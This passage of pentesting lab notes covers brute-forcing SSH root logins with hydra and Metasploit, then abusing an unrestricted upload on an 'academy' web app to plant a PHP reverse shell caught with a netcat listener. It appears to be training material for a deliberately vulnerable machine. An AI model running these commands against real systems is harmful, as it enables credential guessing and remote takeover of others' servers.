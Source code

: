 
#### Brute Force Attack (SSH):

 - Brute force attack is trial and error to guess passwords, encryption keys, and other login credentials. As per below example, we will brute forcing SSH login to the vulnerable machine with 'hydra' and 'metasploit'
	- Syntax for **hydra**:
		- `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://{ip-address} -t 4 -V`
			- -l is for user
			- -P - this is for the wordlists path for the passwords
			- -t - threads count
			- -V - Verbose
	- **Metasploit** (msfconsole):
		- Step 1:
			- Search for ssh
				- `search ssh`
			- After finding the module in auxiliary section, use the module:
				- `use auxiliary/scanner/ssh/ssh_login`
			- Set the options as required:
				- `set USERNAME root`
				- `set RHOSTS {ip-address}`
				- `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt`
				- `set THREADS 10`
				- `set VERBOSE True`
			- Once the options are set, run the module
				- `run`


#### Exploiting a Vulnerable Webserver:

- Web page is hosted in Apache server (Apache/2.4.38) and has a student academy website hosted with the URL: http://{ip-address}/academy
- After navigating the website, a upload button is observed in the student profile update page, to update the student's profile picture.
- As the upload functionality doesn't have any file format constrains, we are going to run an exploit using php to do a reverse shell connection.
	- https://github.com/pentestmonkey/php-reverse-shell
	- After getting the PHP exploit from above link for reverse shell, copy the exploit from github paste into a php file, into your local and update the ip-address in the exploit to the attacker's machine, so that the target machine to enable a reverse shell connection to the attacker's machine. we can change the port is required.
	- Once we have the file ready, before uploading the file, enable listening the attacker machine as ex:
		- `nc -nvlp 1234`
	- Once the attacker machine is listening, upload the exploit to the website and wait for the php exploit to run, once it ran, we can see that the port attacker machine is listening to, now have access to the target's shell.
- We are in the target machine, but we may not be a root user, to do privilege escalation, check on the privilege escalation section.


#### Privilege Escalation of a vulnerable target machine(Linux):
